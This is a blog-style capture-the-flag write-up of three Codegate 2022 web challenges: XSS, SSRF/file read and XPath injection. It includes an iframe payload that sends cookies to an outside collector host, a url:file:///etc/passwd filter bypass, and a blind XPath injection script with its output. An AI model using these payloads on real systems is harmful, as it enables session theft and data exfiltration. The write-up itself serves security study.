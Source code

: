 ```yaml
---
layout: post
title: "Codegate 2022 Write Up"
date: 2022-02-28 23:29:53
description: This article is about write-up for the Codegate 2022. there is only two three challenges, all of which contain an XSS, SSRF, Xpath Injection bug
imgurl: https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcQwXktJQ7FZAsJfxF8NEXKY5SJQ35g0ZpfpAg&usqp=CAU
excerpt: The codegate was held from February 26th to 27th, but I did not even participate because I was not interested, and I only solved 3 web problems today for study.
---
```

# Summary

The codegate was held from February 26th to 27th, but I did not even participate because I was not interested, and I only solved 3 web problems today for study.

---
# (Web) CAFE

The CAFE challenge is very similar to the [easyxss](https://dreamhack.io/wargame/challenges/273/) challenge I made in 2021. I heard that there were many solvers at the time of the competition because the administrator account was exposed as unintent.

```php
function filterHtml($content) {
    $result = '';

    $html = new simple_html_dom();
    $html->load($content);
    $allowTag = ['a', 'img', 'p', 'span', 'br', 'hr', 'b', 'h1', 'h2', 'h3', 'h4', 'h5', 'h6', 'strong', 'em', 'code', 'iframe'];

    foreach($allowTag as $tag){
      foreach($html->find($tag) as $element) {
        switch ($tag) {
          case 'a':
            $result .= '<a href="' . str_replace('"', '', $element->href) . '">' . htmlspecialchars($element->innertext) . '</a>';
            break;
          case 'img':
            $result .= '<img src="' . str_replace('"', '', $element->src) . '">' . '</img>';
            break;
          case 'p':
          case 'span':
          case 'b':
          case 'h1':
          case 'h2':
          case 'h3':
          case 'h4':
          case 'h5':
          case 'h6':
          case 'strong':
          case 'em':
          case 'code':
            $result .= '<' . $tag . '>' . htmlspecialchars($element->innertext) . '</' . $tag . '>';
            break;
          case 'iframe':
            $src = $element->src;
            $host = parse_url($src)['host'];
            if (strpos($host, 'youtube.com') !== false){
              $result .= '<iframe src="'. str_replace('"', '', $src) .'"></iframe>';
            }
            break;
        }
      }
    }
    return $result;
  }
```
If you look at the filterHtml() function, you can see that only a, img, code, and iframe tags can be used. We need to trigger XSS, but only `a` tags and iframe tags. However, the 'a' tag should be clicked by the bot, but there is no click event in the bot, so I just used an iframe.

If you look at the iframe tag part, the hostname of the src attribute value of the iframe should always be youtube.com. That is, it must be a URL such as https://google.com or http://google.com. But we can put hostname in javascript scheme.

All parsers provided by python, java, and javascript separate protocols and hostnames based on ://. But javascript://google.com does not run javascript. However, if it is used like javascript://google.com/%0aalert(1), it is excluded from execution by parsing. We can use this to get flags.

```html
<iframe src=javascript://youtube.com/%0afetch('https://79a9bb50560aa2c77156e03b431dc2b3.m.pipedream.net/?flag'.concat(document.cookie))>
```
```plaintext
FLAG : codegate2022{4074a143396395e7196bbfd60da0d3a7739139b66543871611c4d5eb397884a9}
```
I inserted the above tag and reported it, so I was able to get an administrator session, and I logged in using the session and read the flag.

---
# (Web) babyFirst

```java
private static String lookupImg(String memo) {
    Pattern pattern = Pattern.compile("(\\[[^\\]]+\\])");
    Matcher matcher = pattern.matcher(memo);
    String img = "";
    if (matcher.find()) {
      img = matcher.group();
    } else {
      return "";
    } 
    String tmp = img.substring(1, img.length() - 1);
    tmp = tmp.trim().toLowerCase();
    pattern = Pattern.compile("^[a-z]+:");
    matcher = pattern.matcher(tmp);
    if (!matcher.find() || matcher.group().startsWith("file"))
      return ""; 
    String urlContent = "";
    try {
      URL url = new URL(tmp);
      BufferedReader in = new BufferedReader(new InputStreamReader(url.openStream()));
      String inputLine = "";
      while ((inputLine = in.readLine()) != null)
        urlContent = urlContent + inputLine + "\n"; 
      in.close();
    } catch (Exception e) {
      return "";
    } 
    Base64.Encoder encoder = Base64.getEncoder();
    try {
      String encodedString = new String(encoder.encode(urlContent.getBytes("utf-8")));
      memo = memo.replace(img, "<img src='data:image/jpeg;charset=utf-8;base64," + encodedString + "'><br/>");
      return memo;
    } catch (Exception e) {
      return "";
    } 
  }
```
A vulnerability occurs in the lookupImg() function. If a memo is written in the same syntax as [https://pocas.kr], the lookupImg() function fetches the value inside [] with a regular expression and then verifies the protocol.

```java
    if (!matcher.find() || matcher.group().startsWith("file"))
      return ""; 
```
When the file scheme is passed, it is returned immediately.

```java
if (spec.regionMatches(true, start, "url:", 0, 4)) {
                start += 4;
            }
// https://github.com/frohoff/jdk8u-jdk/blob/master/src/share/classes/java/net/URL.java#L533L535
```
However, if you look at the URL code, if the start of the url starts with url:, it is parsed by moving the starting point by 4. That is, if the value of url:file:///etc/passwd is passed, it moves by 4 and only file:///etc/passwd is interpreted.

```java
    pattern = Pattern.compile("^[a-z]+:");
    matcher = pattern.matcher(tmp);
    if (!matcher.find() || matcher.group().startsWith("file"))
```
And if you check the file scheme again, you can see that the matcher value is parsed using /^[a-z]+:/ regular expression. Since the parsing is based on the colon, if you just pass it as url:file:///etc/passwd, the character before the first colon is parsed, so the file scheme does not take place. Parse it. As a result, it successfully parses `file:///etc/passwd`.

So just pass it to [url:file///flag] and read the image.

```javascript
atob("Y29kZWdhdGUyMDIyezg5NTNiZjgzNGZkZGUzNGFlNTE5Mzc5NzVjNzhhODk1ODYzZGUxZTF9Cg==")
```
```plaintext
FLAG : codegate2022{8953bf834fdde34ae51937975c78a895863de1e1}
```

---
# (Web) MyBlog

```java
XPath xpath = XPathFactory.newInstance().newXPath();
String title = (String)xpath.evaluate("//article[@idx='" + idx + "']/title/text()", document, XPathConstants.STRING);
String content = (String)xpath.evaluate("//article[@idx='" + idx + "']/content/text()", document, XPathConstants.STRING);
```
If you look at the doReadArticle() function, the Xpath Injection vulnerability occurs because the idx value is added as it is.

```docker
RUN echo 'flag=codegate2022{md5(flag)}' >> /usr/local/tomcat/conf/catalina.properties
```
But if you look at the location of the flag, it is in catalina.properties. So I just can't read it. However, while studying Xpath Injection in the past, I used the system-property() function. The function of this function is to return the system property identified by the argument value. So just use this to return the system property called flag and read it with substring().

```python
import requests

url = "http://3.39.79.180/blog/read?idx="
strings = "abcdefghijklmnopqrstuvwxyz0123456789{}"
sess = requests.Session()

def login():
    sess.post('http://3.39.79.180/blog/login', data={'id':'pocas', 'pw':'pocas'})
    print("[+] log-in succeed")

def leak():
    flag = ''
    for i in range(1, 100):
        for c in strings:
            u = url + f"'or substring(system-property('flag'),{i},1)='{c}'or '"
            res = sess.get(u).text
            if 'sdf' in res:
                flag += c
                break
        if len(flag) > 1 and flag[-1] == '}':
            break
    print(f'[+] FLAG : {flag}')

if __name__ == '__main__':
    print('[+] Exploit')
    login()
    leak()
```
```sh
 ⚡ root  ~/hacking/ctf/codegate2022/myblog  python3 exploit.py
[+] Exploit
[+] log-in succeed
[+] FLAG : codegate2022{bcbbc8d6c8f7ea1924ee108f38cc000f}
 ⚡ root  ~/hacking/ctf/codegate2022/myblog 
 ```
```plaintext
FLAG : codegate2022{bcbbc8d6c8f7ea1924ee108f38cc000f}
```
